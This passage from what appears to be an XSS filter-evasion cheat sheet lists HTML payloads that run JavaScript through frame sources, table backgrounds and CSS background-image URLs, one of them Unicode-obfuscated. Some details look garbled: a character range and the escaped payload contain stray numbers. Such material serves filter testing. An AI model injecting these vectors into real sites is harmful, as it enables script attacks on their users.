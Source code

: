 ## FRAME

Frames have the same sorts of XSS problems as iframes

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

## TABLE

```html
<table BACKGROUND="javascript:alert('XSS')"></table>
```

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```html
<table>
  <td BACKGROUND="javascript:alert('XSS')"></td>
</table>
```

## DIV

### DIV Background-image

```html
<div style="background-image: url(javascript:alert('XSS'))"></div>
```

### DIV Background-image with Unicoded XSS Exploit

This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

```html
<div
  style="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"
></div>
```

### DIV Background-image Plus Extra Characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```html
<div style="background-image: url(javascript:alert('XSS'))"></div>
```
